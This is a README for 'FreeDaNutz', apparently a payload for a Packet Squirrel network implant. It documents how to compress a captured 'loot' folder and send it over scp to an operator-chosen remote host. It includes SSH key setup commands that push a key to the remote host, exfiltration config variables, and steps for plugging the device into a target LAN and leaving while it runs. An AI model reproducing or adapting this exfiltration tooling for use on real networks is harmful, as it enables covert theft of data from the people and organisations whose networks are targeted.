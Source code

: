 |                 |                                                                                                    |
|:----------------|:---------------------------------------------------------------------------------------------------|
| **Title**	  | FreeDaNutz								       |
| **Description** | This payload will compress the loot folder and then send that file to a remote server via scp      |
| **Author**	  | [infoskirmish.com](http://www.infoskirmish.com)                                                   |
| **Version**	  | 1.0												      |
| **Category**	  | exfiltration											      |
| **Target** 	  | Any												      |
| **Net Mode**	  | NAT										      |

| Meaning   | Color             | Description                 |
|:----------|:-----------------:|:----------------------------|
| SUCCESS: | Rapid White       | Payload is shutting down    |
| FAIL:     | Red         | No USB storage found        |
|           | Red         | Cannot send files to remote host |
|           | Red         | Cannot ping remote host |
| ATTACK:   | Blink Yellow      | Payload is launching   |
|           | Rapid Cyan        | Compressing Loot Folder |
|           | Rapid Magenta     | Sending Compressed File |

### **Description**
This payload will compress the entire /mnt/loot folder. It will then send via scp that folder to a host you specify. This payload runs some checks to make sure things are set up correctly before it attempts to send any data over the network. If fatal errors occur then trouble shooting data is dumped into /mnt/loot/freedanutz/log.txt

### **Requirements**
+ USB access to get loot folder and to log messages.

### **SSH Setup**

1. SSH to the Squirrel
2. run: mkdir /root/.ssh
3. run: ssh-keygen -t rsa -N "" -f /root/.ssh/id_rsa
4. run: chmod 600 /root/.ssh/id_rsa
5. run: cat /root/.ssh/id__rsa.pub | ssh user@remotehost 'cat >> .ssh/authorized_keys'
6. make sure it works:
        ssh user@remotehost

Notes: The first time you may have to type "yes" to accept. Afterwards you shouldn't have to do this step.


### **Payload Setup**

1. Edit the config variables at the top.

     The main variables are:

          exfilhost="xx.xx.xx.xx"		# The hostname or ip address you want to send the data to.
          exfilhostuser="root"			# The username of the account for the above hostname
          sshport="22"				# Port to send data out on
          exfilfile="backup.tar.gz"		# The name of the compressed loot folder
          identityfile="/root/.ssh/id_rsa"	# Path to private identity file on the squirrel
          remotepath="/root/$exfilfile"	# Path to filename (include file name) on the remote machine.
          exfilfilepath="/mnt/$exfilfile"	# Location to temp store compressed loot (this gets sent)
          lootfolderpath="/mnt/loot"		# Path to loot folder
          payloadlogpath="/mnt/loot/freedanutz"# Path to store payload log file
          

2. Copy payload.sh into the ~/payloads/switch<n> folder you wish to deploy on.

3. Connect into a target machine with access to the LAN.

4. Set switch to the <n> spot and power up.

5. Leave, get coffee, take a nap while the payload runs.

6. When all is done the LED will just go blank. It is now safe to unplug and go about your day.

Enjoy!
